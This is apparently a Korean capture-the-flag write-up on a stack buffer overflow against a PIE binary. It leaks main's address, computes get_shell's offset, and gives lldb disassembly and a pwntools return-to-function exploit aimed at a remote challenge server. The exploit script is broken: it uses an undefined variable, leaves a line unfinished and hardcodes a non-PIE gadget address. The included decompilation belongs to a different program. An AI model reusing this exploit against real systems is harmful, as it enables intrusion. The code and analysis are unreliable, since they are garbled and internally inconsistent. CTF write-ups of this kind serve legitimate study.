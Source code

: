 PIE
참고: https://hackyboiz.github.io/2020/12/06/fabu1ous/x64-stack-alignment/
-> 왜 ret주소를 한번더 줘서 실행시켜야하는가. 
원래 stack alignment가 함수를 call할때 잠시 깨졌다가 ret에서 다시 맞춰준다,
call: rep - 8 -> 일시적으로 stack alignment가 깨짐 -> ret: rep + 8 -> 일시적으로 stack alignment깨진걸 다시 맞춤

문제: 버퍼 오버플로우는 call이 아니라 ret을 조정해서 함수를 호출하는것이다. 그렇기 때문에 stack alignment깨진다.
해결: ret값을 한번더 pay로드에 주고 그 뒤에 목표 실행함수 주소를 넣기.
-------------------------------------------------------------------------------------------------------------------------

*문제 상황
메인 함수의 주소를 들어갈때마다 준다. 메인 주소는 정해져있지 않고 매번 원격접속할때마다 다르게 주는거 같습니다.

fgets이지만 받는 buf[8]임으로 버퍼오버플로우가 가능합니다
파일을 디버깅 했을때 
[0x00000000000011da] main
[0x0000000000001000] get_shell
이렇게 둘의 주소를 알수있었습니다. 서로의 주소는 알지못해도 main과 get_shell의 주소차가 1da인걸 알수있었습니다.

-------------------------------------------------------------------------------------------------------------------------
*문제풀이
펀툴을 이용해서 메인의 주소만 따로 받습니다. 그리고 문자열을 16진수 주소값으로 바꿔놓습니다.
그 주소에서  - 1da 를 진행해줍니다. 이는 get_shell의 주소값입니다.

payload를 보냅니다.
buf[8] 8비트 + sfp 8비트 + getshell의 주소

-------------------------------------------------------------------------------------------------------------------------
[0x00000000000011da] main
[0x0000000000001000] get_shell

Main 의 주소와 get_shell 의 주소차 
= 11da - 1000
= 1da
------------------------------------------------------------------------------------------------------------------------- 디스어셈블 결과
do_you_want_some_pie`main:
do_you_want_some_pie[0x11f0] <+0>:   pushq  %rbp
do_you_want_some_pie[0x11f1] <+1>:   movq   %rsp, %rbp
do_you_want_some_pie[0x11f4] <+4>:   subq   $0x10, %rsp
do_you_want_some_pie[0x11f8] <+8>:   callq  0x1179                    ; init
do_you_want_some_pie[0x11fd] <+13>:  leaq   0xe08(%rip), %rax
do_you_want_some_pie[0x1204] <+20>:  movq   %rax, %rdi
do_you_want_some_pie[0x1207] <+23>:  callq  0x1030                    ; symbol stub for: puts
do_you_want_some_pie[0x120c] <+28>:  leaq   -0x23(%rip), %rax         ; <+0>
do_you_want_some_pie[0x1213] <+35>:  movq   %rax, %rsi
do_you_want_some_pie[0x1216] <+38>:  leaq   0xe06(%rip), %rax
do_you_want_some_pie[0x121d] <+45>:  movq   %rax, %rdi
do_you_want_some_pie[0x1220] <+48>:  movl   $0x0, %eax
do_you_want_some_pie[0x1225] <+53>:  callq  0x1050                    ; symbol stub for: printf
do_you_want_some_pie[0x122a] <+58>:  leaq   0xe0e(%rip), %rax
do_you_want_some_pie[0x1231] <+65>:  movq   %rax, %rdi
do_you_want_some_pie[0x1234] <+68>:  callq  0x1030                    ; symbol stub for: puts
do_you_want_some_pie[0x1239] <+73>:  movq   0x2e10(%rip), %rdx        ; stdin@GLIBC_2.2.5
do_you_want_some_pie[0x1240] <+80>:  leaq   -0x8(%rbp), %rax
do_you_want_some_pie[0x1244] <+84>:  movl   $0x80, %esi
do_you_want_some_pie[0x1249] <+89>:  movq   %rax, %rdi
do_you_want_some_pie[0x124c] <+92>:  callq  0x1060                    ; symbol stub for: fgets
do_you_want_some_pie[0x1251] <+97>:  movl   $0x0, %eax
do_you_want_some_pie[0x1256] <+102>: leave  
do_you_want_some_pie[0x1257] <+103>: retq   
(lldb) image lookup -r -n .

main에서 retq의 주소차
1257 - 11f0 = 67
------------------------------------------------------------------------------------------------------------------------- 디컴파일 결과

int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 buf[32]; // [rsp+0h] [rbp-120h] BYREF
  char v5[8]; // [rsp+104h] [rbp-1Ch] BYREF
  int v6; // [rsp+10Ch] [rbp-14h]
  int v7; // [rsp+110h] [rbp-10h]
  int v8; // [rsp+114h] [rbp-Ch]
  int v9; // [rsp+118h] [rbp-8h]
  int fd; // [rsp+11Ch] [rbp-4h]

  fd = 0;
  memset(buf, 0, sizeof(buf));
  v9 = open("flag1.txt", 0, envp);
  v8 = open("flag2.txt", 0);
  v7 = open("flag3.txt", 0);
  v6 = open("flag4.txt", 0);
  init();
  puts("Can you catch the flag???");
  __isoc99_scanf("%s", v5);
  read(fd, buf, 0xFFuLL);
  puts((const char *)buf);
  return 0;

-------------------------------------------------------------------------------------------------------------------------
*코드

from pwn import *


r = remote("ctf.keeper.or.kr", 1008)
Diff1 = 0x1da
Diff2 = 0x67
str = "printed:"
line1 = r.recvline().decode()
print(line1)
line2 = r.recvline().decode()
print(line2)
parsed = line2.split(':')
adr = parsed[1].strip()
print(adr)
line3 = r.recvline().decode()
print(line3)

result_hex = int(adr, 16)
print(result_hex)
print(diff)
new_address = (result_hex - diff)
Ret_addrress = (

payload  = b"A" * 16 #버퍼크기(8) + SFP(8)의 크기만큰 덮어쓰기
payload += p64(0x40101a) # system retq의 주소를 한번 줘야함
payload += p64(new_address)
r.sendline(payload)
print(payload)
r.interactive()

